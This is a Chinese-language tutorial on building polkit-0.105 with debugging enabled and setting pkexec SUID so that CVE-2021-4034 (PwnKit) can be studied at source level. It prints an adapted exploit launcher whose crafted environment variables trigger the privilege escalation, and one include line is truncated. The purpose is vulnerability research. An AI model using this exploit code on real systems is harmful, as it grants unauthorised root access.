 ### 下载源码 polkit-0.105

https://src.fedoraproject.org/repo/pkgs/polkit/polkit-0.105.tar.gz/md5/9c29e1b6c214f0bd6f1d4ee303dfaed9/polkit-0.105.tar.gz

### 安装编译环境

```
apt install automake
apt install autopoint
apt install libtool
apt install gtk-doc-tools
apt install libpam0g-dev
apt install intltool

```

### 编译

```
./configure （要把-O2换成 -O0，关闭优化，方便调试）
make

```

### 设置 SUID 权限

以 root 用户赋权

```
cd src/programs/.libs
chmod 4755 pkexec

```

![](https://bbs.pediy.com/upload/attach/202202/598931_4JNPKRYT6ZTYPH8.png)

### 修改利用脚本 berdav/CVE-2021-4034

修改利用脚本里调用的程序为刚编译好的 pkexec，以便源码调试。  
cve-2021-4034.c

```
#include int main(int argc, char **argv)
{
    char * const args[] = {
        NULL
    };
    char * const environ[] = {
        "pwnkit.so:.",
        "PATH=GCONV_PATH=.",
        "SHELL=/lol/i/do/not/exists",
        "CHARSET=PWNKIT",
        "GIO_USE_VFS=",
        NULL
    };
    return execve("../polkit-0.105/src/programs/.libs/pkexec", args, environ);
} 
```
